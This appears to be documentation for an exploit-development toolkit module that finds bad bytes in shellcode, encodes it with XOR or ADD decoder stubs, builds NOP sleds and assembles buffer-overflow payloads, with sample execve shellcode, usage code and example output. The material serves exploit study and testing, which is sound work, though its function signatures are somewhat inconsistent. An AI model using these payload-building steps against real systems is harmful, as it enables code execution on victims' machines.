

# Payload Formatting

Detect bad bytes in shellcode, apply XOR rolling or ADD byte encoding to produce null-free and metacharacter-free payloads, generate architecture-appropriate NOP sleds, and assemble complete exploit buffers padding + NOP sled + shellcode + return address: the toolchain for producing a deliverable payload from verified shellcode: via `ablation/core/shellcode_utils.py`.

---

## Why this exists

1. `detect_bad_bytes()` identifies which bytes in a shellcode payload will corrupt the delivery: many vulnerability classes terminate shellcode on encountering `\x00` null terminator in string copies, `\x0a` newline in line-based protocols, `\x0d` carriage return, or `\x20` space in argument parsing. `detect_bad_bytes()` checks a shellcode byte sequence against a configurable `bad_bytes` set and reports each byte value and its offset, allowing the analyst to determine whether encoding is required before delivery.

2. `encode_xor_rolling()` and `encode_add()` transform shellcode to eliminate bad bytes: `encode_xor_rolling()` XORs each byte with a rolling key (initial key XOR'd with the previous plaintext byte) and prepends a decoder stub that reverses the operation at runtime. `encode_add()` applies a static ADD transformation and prepends a SUB decoder. Both functions return `encoded_payload, decoder_stub`. `nop_sled()` generates platform-appropriate NOP sequences: `\x90` on x86-64, `nop` instruction encoding on ARM64, and NOPs appropriate for MIPS32 and RISCV.

3. **`build_exploit_buffer()` assembles a complete buffer for delivery**, it concatenates the padding bytes to fill the buffer to the overflow offset, the NOP sled, the encoded shellcode, and the return address repeated to overwrite saved RIP/EIP. The return address is formatted as a little-endian 8-byte value for x86-64 or 4-byte for x86. `shellcode_length()` audits the assembled buffer by section to confirm the layout matches the intended crash offset.

---

## How it works



---

## Usage

```python
from ablation.core.shellcode_utils import (
    detect_bad_bytes, encode_xor_rolling,
    nop_sled, build_exploit_buffer, shellcode_length
)

# Check shellcode for bad bytes
# detect_bad_bytes(shellcode, bad_set=set) → {found, clean, offsets, bad_bytes_present, summary}
sc = b'\x48\x31\xff\x57\x57\x5e\xb0\x3b\x0f\x05'
result = detect_bad_bytes(sc, bad_set={0x00, 0x0a, 0x0d})
if result['found']:
    print(f"Bad bytes found: {result['summary']}")
    # offsets: list of (offset, byte_value) tuples
    for off, val in result['offsets']:
        print(f"  offset={off:#x}  byte={val:#04x}")
    encoded, decoder = encode_xor_rolling(sc, key=0x42)
    payload = decoder + encoded
else:
    payload = sc

# Build complete exploit buffer
# build_exploit_buffer(shellcode, total_size, ret_addr: bytes, ret_count=4, platform_str=...) → bytes
ret_bytes = b'\x00\x00\xff\xff\xfe\x7f\x00\x00'  # little-endian bytes, not int
buffer = build_exploit_buffer(
    shellcode=payload,
    total_size=264,       # total buffer size up to (not including) ret_addr region
    ret_addr=ret_bytes,
    ret_count=4,
)
print(f"Buffer length: {len(buffer)}")
# shellcode_length(bytes) → {bytes, hex_size, dword_aligned, qword_aligned, page_aligned}
info = shellcode_length(payload)
print(f"Shellcode: {info['bytes']} bytes  ({info['hex_size']})  qword_aligned={info['qword_aligned']}")
```

---

## Example output

The following illustrates payload formatting output format.

```
detect_bad_bytes: shellcode (10 bytes)

  No bad bytes found (against \\x00 \\x0a \\x0d)

build_exploit_buffer:

  Total: 280 bytes
  sections:
    padding:   200 bytes ('A' * 200)
    nop_sled:   32 bytes (\\x90 * 32)
    shellcode:  10 bytes
    ret_addr:   8 bytes (0x7ffe00000000, LE)
    padding2:   30 bytes (repeating ret_addr)
```

---

## False positives

**`detect_bad_bytes()` context-dependent bad bytes**: the set of bad bytes is protocol-dependent. A payload delivered over a base64 channel has no bad bytes. A payload delivered via a format string exploit may have different bad byte constraints for example `%` metacharacter. Always specify the correct `bad_bytes` set for the delivery mechanism.

**`encode_xor_rolling()` decoder stub incompatibility**: the included XOR decoder stub is x86-64 and assumes the shellcode is mapped as RWX. If the target uses NX/DEP, the decoder cannot write to the shellcode segment. In this case, the ROP chain from `crash-offset-and-rop-helpers.md` must map new RWX memory before invoking the decoder.

---

## Pipeline position

Payload formatting is the final step before delivery. Run `detect_bad_bytes()` on shellcode generated by `shellcode_utils` reverse-TCP or staged-loader functions, encode if needed, then use `build_exploit_buffer()` to produce the deliverable payload at the correct crash offset.

---

## Reading output

`build_exploit_bufferpadding, nop_sled, shellcode` returns `bytes`: the assembled buffer.

`detect_bad_bytesshellcode, bad_bytes` returns a dict:

| Key | Content |
|:---|:---|
| `found` | `List[int]`: byte values from `bad_bytes` that appear in shellcode |
| `clean` | `True` if no bad bytes found |
| `offsets` | `Dict[int, List[int]]`: bad byte value → list of offsets within shellcode |

`build_exploit_buffer` summary: `{total_size, sections: [{name, size}]}`.

---

## See also

- [Crash Offset and ROP Helpers](crash-offset-and-rop-helpers.md): cyclic pattern offset calculation and ROP chain construction
- [Host Platform Inventory](host-platform-inventory.md): ASLR/NX status that determines whether payload delivery requires mitigation bypass
